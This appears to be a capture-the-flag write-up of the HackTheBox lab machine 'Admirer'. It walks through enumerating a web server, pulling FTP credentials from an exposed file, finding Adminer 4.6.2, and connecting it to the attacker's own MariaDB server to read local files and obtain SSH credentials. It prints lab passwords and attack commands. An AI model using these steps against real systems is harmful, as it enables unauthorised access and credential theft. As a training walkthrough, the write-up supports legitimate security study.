










# 10 - HTTP

# index.php


# robots.txt


Anything related to admin is interesting.


# admin-dir

Forbidden is good we know that there is something in there.

# contact.txt and credentials.txt




# contacts.txt



# credentials.txt


We got ftp credentials.

* ftpuser:%n?4Wz}R$tTF7

# FTP
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer/var/w4ld0s_s3cr3t_d1r]
└──╼ $ ftp admirer.htb

Name (admirer.htb:user): ftpuser
Password: %n?4Wz}R$tTF7

ftp> ls

-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz

```

html archive turns out to be the backup of the web server.

# html.tar.gz
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer/var]
└──╼ $ ls -la
total 5168
drwxr-xr-x 1 user user     172 Aug 23 12:46 .
drwxr-xr-x 1 user user     114 Aug 23 15:33 ..
drwxr-x--- 1 user user      34 Jun  7  2019 assets
-rw-r--r-- 1 user user     779 Aug 23 12:08 dump
-rw-r--r-- 1 user user    3405 Aug 21 17:26 dump.sql
drwxr-x--- 1 user user      22 Dec  2  2019 images
-rw-r----- 1 user user    4613 Dec  3  2019 index.php
-rw-r----- 1 user user     134 Dec  2  2019 robots.txt
drwxr-x--- 1 user user      92 Dec  2  2019 utility-scripts
drwxr-x--- 1 user user      54 Dec  2  2019 w4ld0s_s3cr3t_d1r
```

w4ld0s_s3cr3t_d1r is renamed to admin-dir. Utility-scripts is a new folder, the backup is just an older version so utility-scripts may contain more files than it did before.


# adminer.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer/gobuster]
└──╼ $  gobuster dir -u 10.10.10.187/utility-scripts/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x ".php,.txt,.html" -o gobuster/utility-x.log
/info.php             (Status: 200) [Size: 83769]
/phptest.php          (Status: 200) [Size: 32]
/adminer.php          (Status: 200) [Size: 4295]
```


adminer.php is new


# adminer.php


None of the credentials we found from the backup works on here but adminer.php can connect to remote databases too. By connecting to our own database, we expose the additional functionalities of adminer.php. Hopefully, we exploit those functionalities to get code execution.


# Create a database and user
```sql

┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer]                                                                                                                                                 
└──╼ $ sudo systemctl restart mariadb.service
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer]                                                                                                                                                 
└──╼ $ sudo mysql -u root
MariaDB [(none)]> create database admirerdb
MariaDB [(none)]> create user 'refik'@'10.10.10.187' IDENTIFIED BY 'refikpass';                                             
MariaDB [(none)]> GRANT ALL PRIVILEGES ON * . * TO 'refik'@'10.10.10.187';
MariaDB [(none)]> FLUSH Privileges;
```


# Adminer


Finally we are in the admin panel.

4.6.2 is vulnerable to [Local File Inclusion](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)


# Create a table




# SQL command



This sql command should read the content of the local file, index.php and store it in the remote database. 

# File read



Seemingly, the database password is updated. Let's try the new credentials on ssh.


# SSH

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/admirer]
└──╼ $ cme ssh admirer.htb -u waldo -p '&<h5b~yK3F#{PaPB&dA}{H>'
SSH         10.10.10.187    22     admirer.htb      [*] SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u7
SSH         10.10.10.187    22     admirer.htb      [+] waldo:&<h5b~yK3F#{PaPB&dA}{H> 
```
